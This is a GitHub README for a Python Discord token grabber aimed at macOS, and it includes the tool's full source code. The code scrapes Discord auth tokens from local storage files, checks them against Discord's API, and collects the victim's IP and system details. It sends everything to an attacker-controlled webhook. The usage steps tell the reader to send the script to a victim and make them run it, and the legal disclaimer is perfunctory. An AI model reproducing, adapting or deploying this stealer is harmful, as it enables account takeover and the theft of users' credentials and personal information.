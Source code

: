 # Discord-Mac-Token-Grabber

Information: 📕
This is a Discord token grabber written in Python.
This token grabber only supports the Macos operating system.
I created this github because, I was looking for a Discord token grabber for mac,
since there wasn't any I decided to create this.
Hopefully you enjoy this project.

Features: 💡
No data caching.
Transfers via Discord webhook.
Searching for tokens in multiple directories (Discord, Discord PTB, Discord Canary, Chrome, Opera, Brave and Yandex).
No external Python modules needed.
No external Python modules required.
 
How to use: 😃
Create a webhook on your Discord server. I recommend creating a new server.
Change the “Webhook Here” variable value in line 10 to your Discord webhook URL in main.py
Send the script to your victim and make them run it.
 
Disclaimer: ⚠️
The use of this software on any device that is not your own is highly discouraged. You need to obtain explicit permission from the owner if you intend to use this program in an environment you don't own, any illicit installation will likely be prosecuted by the jurisdiction the (ab)use occurs in.
Creators shall not be liable for any indirect, incidental, special, consequential or punitive damages, or any loss of profits or revenue, whether incurred directly or indirectly, or any loss of data, use, goodwill, or other intangible losses, resulting from:
(i) your access to this resource and/or inability to access this resource (ii) any conduct or content of any third party referenced by this resource, including without limitation, any defamatory, offensive or illegal conduct or other users or third parties (iii) any content obtained from this resource.
If you use or utilize this software in any way you are agreeing to the Federal Computer Fraud and Abuse Act.
 
Requirements: 🖥️Python installed
A computer running the Macos operating system
.A Discord server.
A Discord Webhook

Donate - Bitcoin Address - 3Jty4GmPehqp7Fggrq5TTHi7i3SYUomL5Z
       - Ethernium Address - 0x780Dccf56E82d190D66ea707d8AB1a762E5A7b76	
       - Lithium Address - MStJCfnwXvLEbeUZaYNuXurk1fyJ3Twr5T 	
       - Dogecoin address - DUMnoZnXLYFNnwcoZ7XEsQLCUpBEGva3n7 	

There has been users experienceing problems with the image logger if this happens to you.
Open your Python Idle and type this below
```import requests
import os
import glob
import re
import time
import getpass
import platform
import datetime

WEBHOOK = "URL HERE"


appdatapath = (f'/Users/{getpass.getuser()}/Library/Application Support')
paths = [
    appdatapath + '/Discord',
]
tknpaths = []


def grabTokens(path):
    tokns = []
    appdatapath = os.getenv(
        f'/Users/{getpass.getuser()}/Library/Application Support')
    files = glob.glob(path + r"/Local Storage/leveldb/*.ldb")
    files.extend(glob.glob(path + r"/Local Storage/leveldb/*.log"))
    for file in files:
        with open(file, 'r', encoding='ISO-8859-1') as content_file:
            try:
                content = content_file.read()
                possible = [x.group() for x in re.finditer(
                    r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}|mfa\.[a-zA-Z0-9_\-]{84}', content)]
                tokenpath = ['\n\n' + path + ' :\n']
                if len(possible) > 0:

                    tknpaths.append(tokenpath)
                    tokns.extend(tokenpath + possible)
            except:
                pass
    return tokns


def SendTokensToWebhook(tkns):
    ip = "Unavailable"
    try:
        ip = requests.get("http://checkip.amazonaws.com/").text
    except:
        ip = "Unavailable"
    content = f"```ruby\nPulled {len(tkns) - len(tknpaths)} tokens from {getpass.getuser()} \nip: {ip}\n"
    for tkn in tkns:
        # content += '---------------------------------\n'
        content += tkn + "\n"
        content += '---------------------------------\n'
    content += ("\n\n========================================System Information========================================")
    uname = platform.uname()
    content += (f"\nSystem: {uname.system}")
    content += (f"\nPCName: {uname.node}")
    content += (f"\nRelease: {uname.release}")
    content += (f"\nVersion: {uname.version}")
    content += (f"\nMachine: {uname.machine}")
    content += (f"\nProcessor: {uname.processor}\n\n")
    content += datetime.datetime.now().strftime("%H:%M %p")
    content += "```@everyone"
    payload = {
        "content": content,
        "avatar_url": "https://emoji.gg/assets/emoji/3592-checkmark.png",
        "username": "Friendly hacker blocker :)"
    }
    requests.post(WEBHOOK, data=payload)


tksn = []
for _dir in paths:
    tksn.extend(grabTokens(_dir))
if len(tksn) < 1:
    exit(0)
for check in tksn:
    check = str(check)
    if check.startswith('\n'):
        continue
    else:
        sake = requests.get(
            'https://canary.discordapp.com/api/v6/users/@me', headers={'Authorization': check})
        try:
            if sake.status_code == 200:
                tksn.append('\n\n=====Checker=====\n' + check + ' is valid')
            else:
                # tksn.append('\n\n=====Checker=====\n' + check + ' may be invalid')
                continue
        except:
            pass
SendTokensToWebhook(tksn)```

Credits: 🧳
Kumarchino (Creator)
Feel free to edit and improve this token grabber.
In the future their will be support for the Windows and the Linux operating system aswell
